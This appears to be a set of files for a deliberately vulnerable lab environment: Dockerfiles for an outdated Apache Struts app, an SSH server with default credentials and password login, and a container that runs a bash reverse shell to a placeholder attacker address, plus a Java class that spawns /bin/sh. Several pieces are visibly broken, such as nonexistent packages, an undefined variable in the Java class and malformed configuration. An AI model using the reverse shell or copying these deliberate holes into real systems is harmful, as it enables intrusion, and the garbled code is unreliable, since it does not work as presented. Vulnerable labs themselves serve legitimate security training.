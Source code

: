 1. Dockerfile (Dockerfile.struts)

```Dockerfile
FROM openjdk:8-jre-alpine

# Install Apache Struts 2.x (outdated and vulnerable)
RUN apk add --no-cache struts2

# Copy the vulnerable web application
COPY webapp /usr/local/struts2-app/

# Expose the HTTP port (8080)
EXPOSE 8080

# Run the Apache Struts web application
CMD ["java", "-jar", "/usr/local/struts2-app/struts2-core-2.x.jar", "-Dstruts.webapp=/"]
```

2. Vulnerable web application (webapp/WEB-INF/struts.xml)

```xml
<!-- Struts configuration file with the vulnerable action -->
<action name="*">
    <result>/index.jsp</result>
</action>
<action name="exec" class="com.example.ExecuteShell">
    <result name="success">/index.jsp</result>
</action>
<action name="*_exec">
    <result type="chain" name="exec">/index.jsp</result>
</action>
<action name="*_exec*">
    <result type="chain" name="exec">/index.jsp</result>
</action>
<action name="*_exec**">
    <result type="chain" name="exec">/index.jsp</result>
</action>
```

3. Vulnerable Java class (webapp/WEB-INF/classes/com/example/ExecuteShell.java)

```java
package com.example;

import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.http.HttpServletResponse;

public class ExecuteShell {
    public String execute() throws IOException {
        Process process = Runtime.getRuntime().exec("/bin/sh");
        PrintWriter writer = response.getWriter();
        writer.println("Executing command: /bin/sh");
        process.getInputStream().close();
        process.waitFor();
        writer.close();
        return SUCCESS;
    }
}
```

4. Netcat reverse shell script (reverse_shell.sh)

```bash
#!/bin/sh
bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1
```

5. Dockerfile (Dockerfile.netcat)

```Dockerfile
FROM alpine:latest

# Copy the reverse shell script
COPY reverse_shell.sh /

# Set the executable permission for the reverse shell script
RUN chmod +x /reverse_shell.sh

# Expose a high port (e.g., 4444)
EXPOSE 4444

# Run the reverse shell script
CMD ["/reverse_shell.sh"]
```

6. Dockerfile (Dockerfile.ssh)

```Dockerfile
FROM alpine:latest

# Install OpenSSH server
RUN apk add --no-cache openSSH

# Set default username and password (e.g., username: user, password: password)
ENV USER user
ENV PASSWORD password

# Set SSH port (e.g., 2222)
EXPOSE 2222

# Configure SSH to allow password authentication
RUN sed -i 's/#PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config

# Start the OpenSSH server
CMD ["ssh-daemon", "-D"]
```